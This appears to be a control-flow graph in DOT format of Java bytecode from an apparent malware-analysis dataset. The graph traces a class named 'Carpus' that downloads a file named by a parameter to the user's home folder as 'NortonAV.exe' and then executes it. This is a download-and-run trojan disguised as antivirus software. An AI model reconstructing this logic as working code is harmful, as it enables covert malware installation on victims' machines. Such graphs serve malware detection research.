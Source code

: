 digraph "" {
    "r0 := @this: Carpus"
    "push \"user.home\""
    "r0 := @this: Carpus"->"push \"user.home\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"user.home\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "push \"\\NortonAV.exe\""
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"push \"\\NortonAV.exe\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"\\NortonAV.exe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r2";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r2"->"staticget <java.lang.System: java.io.PrintStream out>";
    "load.r r2"
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r2";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "load.r r0"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"file\""
    "load.r r0"->"push \"file\"";
    "virtualinvoke <Carpus: java.lang.String getParameter(java.lang.String)>"
    "push \"file\""->"virtualinvoke <Carpus: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Carpus: java.lang.String getParameter(java.lang.String)>"->"load.r r2";
    "virtualinvoke <Carpus: void download(java.lang.String,java.lang.String)>"
    "load.r r2"->"virtualinvoke <Carpus: void download(java.lang.String,java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <Carpus: void download(java.lang.String,java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r0"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r2";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
}
